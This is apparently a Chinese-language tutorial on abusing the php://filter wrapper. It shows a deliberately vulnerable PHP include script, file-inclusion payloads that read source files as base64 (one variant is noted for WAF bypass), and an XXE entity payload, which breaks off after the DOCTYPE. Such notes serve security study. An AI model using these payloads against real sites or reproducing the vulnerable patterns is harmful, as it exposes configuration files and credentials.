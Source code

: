 ### 文件包含
文件包含漏洞顾名思义即：包含恶意代码或恶意内容达到一定的攻击效果。
在文件包含漏洞当中，因为php://filter可以对所有文件进行编码处理，所以常常可以使用php://filter来包含读取一些特殊敏感的文件（配置文件、脚本文件等）以辅助后面的漏洞挖掘。
**测试代码**
```php
<?php
    $file  = $_GET['file'];
    include($file);
?>
```
payload
```
?file=php://filter/read=convert.base64-encode/resource=test.php
```
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_48_HsGwXSuJ.png)
通过指定末尾的文件，可以读取经base64加密后的文件源码，虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。同时也能够对网站源码进行审计
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_48_vb4HO7jp.png)
payload
少read关键字 ，在绕waf的时候或许有用，我也记录一下吧
```
?file=php://filter/convert.base64-encode/resource=test.php
```
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_49_2NIGF83U.png)
### XXE 
php://filter之前最常出镜的地方是XXE。由于XXE漏洞的特殊性，我们在读取HTML、PHP等文件时可能会抛出此类错误parser error : StartTag: invalid element name 。其原因是，PHP是基于标签的脚本语言，<?php ... ?>这个语法也与XML相符合，所以在解析XML的时候会被误认为是XML，而其中内容（比如特殊字符）又有可能和标准XML冲突，所以导致了出错。
那么，为了读取包含有敏感信息的PHP等源文件，我们就要先将“可能引发冲突的PHP代码”编码一遍，这里就会用到php://filter。
在XXE中，我们也可以将PHP等容易引发冲突的文件流用php://filter协议流处理一遍，这样就能有效规避特殊字符造成混乱。
**测试代码**
```php
<?php
	$content = file_get_contents("php://input");
	$xml = simplexml_load_string($content);
	echo $xml->methodname;
?>
```
```xml
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xdesc [
<!ELEMENT root ANY>
<!ENTITY abc SYSTEM "php://filter/read=convert.base64-encode/resource=./xxe.php" >]>
```